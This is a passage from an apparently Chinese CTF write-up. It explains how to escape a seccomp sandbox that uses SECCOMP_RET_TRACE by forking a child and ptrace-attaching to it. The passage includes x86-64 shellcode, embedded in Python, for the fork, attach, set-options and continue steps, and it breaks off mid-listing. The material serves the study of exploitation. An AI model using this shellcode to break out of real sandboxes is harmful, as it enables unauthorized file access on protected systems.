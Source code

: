 
大致意思是 `SECCOMP_RET_TRACE` 允许将系统调用交由 ptrace 调试处理，从而为调试器提供更大的控制能力，于是这道题的解法又回到了内核版本 4.8 前的思路 ：

1. fork 出一个子进程，在其中运行常规 orw，此时会触发 TRACE；
2. 父进程中 ptrace 上子进程，并调用 wait 等待子进程的状态改变；
3. 设置 ptrace 调试选项启用 `PTRACE_O_TRACESECCOMP`，用于追踪 seccomp 事件；
4. 设置 `PTRACE_CONT` 恢复并继续子进程的执行；
5. 再次调用 wait 等待子进程的状态改变，这时候子进程会调用到被过滤的 open；
6. 在捕获到 seccomp 事件后，父进程解除对子进程的调试控制，这时候被过滤的 open 也能正常执行，相当于无事发生，在这里就完成了对子进程系统调用的 hook。

```python
NR_fork = 57
NR_ptrace = 101
NR_wait = 61
PTRACE_ATTACH = 16
PTRACE_SETOPTIONS = 0x4200
PTRACE_O_TRACESECCOMP = 0x00000080
PTRACE_CONT = 7
PTRACE_DETACH = 17
shellcode = f"""
main:
/*fork()*/
    push {NR_fork}
    pop rax
    syscall
    push rax
    pop rbx
    test rax,rax
    jz child_code

/*ptrace(PTRACE_ATTACH, pid, NULL, NULL)*/
    xor r10, r10
    xor edx, edx
    mov rsi,rbx
    mov rdi,{PTRACE_ATTACH}
    push {NR_ptrace}
    pop rax
    syscall

/* wait child  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

/* ptrace(PTRACE_SETOPTIONS, pid, NULL, PTRACE_O_TRACESECCOMP) */
    mov r10,{PTRACE_O_TRACESECCOMP}
    xor rdx, rdx
    mov rsi,rbx
    mov rdi, 0x4200
    push {NR_ptrace}
    pop rax
    syscall
    js error

/* ptrace(PTRACE_CONT, pid, NULL, NULL) */
    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi, {PTRACE_CONT}  /* PTRACE_CONT */
    push {NR_ptrace}
    pop rax
    syscall
    js error

```